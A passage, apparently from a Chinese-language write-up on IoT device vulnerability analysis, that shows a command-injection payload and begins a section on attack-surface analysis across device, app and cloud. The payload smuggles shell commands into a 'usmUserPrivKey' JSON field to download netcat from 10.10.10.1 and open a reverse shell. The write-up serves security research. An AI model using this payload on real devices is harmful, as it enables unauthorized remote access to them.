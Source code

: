 
我们先命令执行一个 wget 命令，拉取一个 netcat，然后再用 netcat 进行反向连接即可
```python
"usmUserPrivKey":"123;cd /;wget http://10.10.10.1:88/netcat;chmod 777 netcat;./netcat 10.10.10.1 12345 -e sh;",
```
![Vulnerability_analysis12](images/Vulnerability_analysis12.png)


## 6. 漏洞挖掘思路

### 6.1 攻击面分析

在做攻击面分析前我们首先要知道，对于一个常规的物联网设备而言，可以分为设备端、手机端和云端。而这三个不同的端都会存在自己一些特殊的攻击面。比如设备端我们往往会先想办法获取固件然后分析核心服务，而APP端则会有注入蓝牙等一系列操作。
